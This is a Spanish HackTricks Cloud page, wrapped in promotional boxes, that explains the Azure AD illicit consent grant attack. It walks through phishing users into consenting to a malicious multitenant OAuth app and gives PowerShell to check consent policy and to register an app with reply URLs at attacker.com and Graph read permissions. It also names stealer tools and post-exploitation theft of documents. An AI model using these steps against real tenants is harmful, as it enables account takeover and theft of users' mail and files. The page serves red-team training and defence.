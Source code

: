 # Az - Concesión de Consentimiento Ilícito

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Phishing de Aplicaciones OAuth

Las **Aplicaciones Azure** solicitan permisos para acceder a los **datos del usuario** (información básica, pero también acceso a documentos, enviar correos electrónicos...).\
Si se **permite**, un usuario normal solo puede dar su consentimiento para permisos de **"Bajo Impacto"**. En **todos los demás** casos, se **requiere el consentimiento del administrador**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` y un rol personalizado que incluya `permiso para otorgar permisos a aplicaciones` pueden proporcionar consentimiento a nivel de inquilino.

Solo los permisos que **no requieren consentimiento del administrador** se clasifican como de **bajo impacto**. Estos son permisos requeridos para **inicio de sesión básico son openid, profile, email, User.Read y offline\_access**. Si una **organización** **permite** el consentimiento del usuario para **todas las aplicaciones**, un empleado puede dar su consentimiento a una aplicación para **leer lo anterior de su perfil**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, un atacante podría preparar una **Aplicación maliciosa** y con un **phishing**, hacer que el usuario **acepte la Aplicación y robar sus datos**.

### Verificar si los usuarios tienen permiso para dar consentimiento

Verifica si los usuarios tienen permiso para dar consentimiento a aplicaciones:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **Desactivar el consentimiento del usuario**: Los usuarios no pueden otorgar permisos a aplicaciones.
* **Los usuarios pueden dar su consentimiento a aplicaciones de editores verificados o de su organización, pero solo para los permisos que seleccione**: Todos los usuarios solo pueden dar su consentimiento a aplicaciones que fueron publicadas por un editor verificado y aplicaciones que están registradas en su inquilino.
* **Los usuarios pueden dar su consentimiento a todas las aplicaciones**: permite que todos los usuarios den su consentimiento a cualquier permiso que no requiera el consentimiento del administrador.
* **Política de consentimiento de aplicaciones personalizada**

## **¿Qué es el Ataque de Concesión de Consentimiento Ilícito?**

En un ataque de concesión de consentimiento ilícito, el atacante crea una **aplicación registrada en Azure que solicita acceso a datos como información de contacto, correo electrónico o documentos**. Luego, el atacante engaña a un usuario final para que otorgue su consentimiento a la aplicación, de modo que el atacante pueda acceder a los datos a los que el usuario objetivo tiene acceso. Una vez que se ha otorgado el consentimiento a la aplicación, esta tiene acceso a nivel de cuenta de usuario a los datos sin necesidad de una cuenta organizacional.

En palabras simples, cuando la víctima hace clic en ese hermoso botón azul de "Aceptar", Azure AD envía un token al sitio de terceros que pertenece a un atacante, donde el atacante utilizará el token para realizar acciones en nombre de las víctimas, como acceder a todos los Archivos, Leer Correos, Enviar Correos, etc.

## **Flujo del Ataque**

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Para realizar este ataque contra la empresa "ecorp", el atacante podría haber registrado un dominio con el nombre "safedomainlogin.com" y creado un subdominio ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) donde **alojaron la aplicación para capturar el código de autorización** y luego solicitar los tokens de acceso.

Luego, registran una Aplicación Multiinquilino en su Inquilino de Azure AD y la nombran como "ecorp" y agregaron la URL de Redirección que apunta a "ecorp.safedomainlogin.com", que aloja una aplicación para capturar el código de autorización.

El atacante también crea un nuevo secreto de cliente y agregó algunos **permisos** de API tales como `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` en la aplicación. De modo que una vez que el **usuario otorgue el consentimiento a la aplicación**, el atacante puede **extraer** la **información sensible** en nombre del usuario.

Finalmente, el atacante crea el **enlace** que contenía el id de cliente de la aplicación maliciosa y **compartió** el enlace con los **usuarios objetivo** para obtener su consentimiento.

## 365-Stealer

Puedes realizar este ataque con [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

Como paso adicional, si tienes algún **acceso sobre un usuario en la organización víctima**, puedes verificar si la política le permitirá **aceptar aplicaciones**:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
Para este ataque necesitarás crear una **nueva App en tu Tenant de Azure** (en registros de aplicaciones) con, por ejemplo, los siguientes permisos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` está dentro de `Microsoft Graph` en `Permisos delegados`. (Los permisos de aplicación siempre necesitarán aprobación adicional).

* `User.ReadBasic.All` es el permiso que te permitirá **leer información de todos los usuarios** en la organización si se concede.
* Recuerda que solo `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` y un rol personalizado que incluya `permiso para otorgar permisos a aplicaciones` pueden proporcionar consentimiento a nivel de tenant. Por lo tanto, deberías **phishing a un usuario con uno de esos roles** si quieres que apruebe una **App que requiere consentimiento de administrador**.

También podrías crear una App a través de la cli con:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Consulta [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) para aprender cómo configurarlo.

{% hint style="warning" %}
Ten en cuenta que el **token de acceso** obtenido será para el **punto de conexión graph** con los alcances: `User.Read` y `User.ReadBasic.All` (los permisos solicitados). No podrás realizar otras acciones (pero esos son suficientes para **descargar información sobre todos los usuarios** en la organización).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

También puedes usar esta herramienta para realizar este ataque.

## Post-Explotación

Una vez que hayas accedido al usuario, puedes hacer cosas como robar documentos sensibles e incluso subir archivos de documentos con puertas traseras.

## Referencias

* Este post fue copiado de [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>Aprende hacking de AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
